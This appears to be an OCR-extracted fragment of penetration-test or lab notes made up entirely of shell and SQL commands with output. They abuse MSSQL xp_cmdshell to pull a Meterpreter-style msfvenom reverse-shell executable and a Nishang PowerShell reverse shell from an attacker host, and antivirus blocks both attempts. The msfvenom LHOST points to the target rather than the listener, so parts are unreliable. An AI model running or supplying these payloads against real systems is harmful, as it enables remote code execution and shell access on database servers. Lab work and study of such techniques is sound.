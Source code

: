 ```bash
sudo nc -nvlp 1435

# output
listening on [any] 1435 ...
connect to [192.168.49.186] from (UNKNOWN) [192.168.186.70] 49867
```

```bash
EXEC xp_cmdshell 'echo hello > c:\users\public\poo.txt'

# output
(1 row affected, return status = 0)
```

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.186.70 LPORT=1435 -f exe -o rshell.exe

# output
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell.exe
```

```bash
EXEC xp_cmdshell 'powershell -c "iwr http://192.168.49.186/rshell.exe -outfile c:\users\public\rshell.exe"'
EXEC xp_cmdshell 'dir c:\users\public\rshell.exe'

# output
08/30/2021  02:40 AM             7,168 rshell.exe 
```

```bash
EXEC xp_cmdshell 'powershell -c "start-process c:\users\public\rshell.exe"'

# output
This command cannot be run due to the error: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
```

```bash
cd exploits/
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o Invoke-PowerShellTcp.ps1
sudo python3 -m http.server 80
```

```bash
sudo nc -nvlp 1435
```

```bash
EXEC xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(\"http://192.168.49.186/Invoke-PowerShellTcp.ps1\"); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.49.186 -Port 1435'

# output
This script contains malicious content and has been blocked by your antivirus software.
```
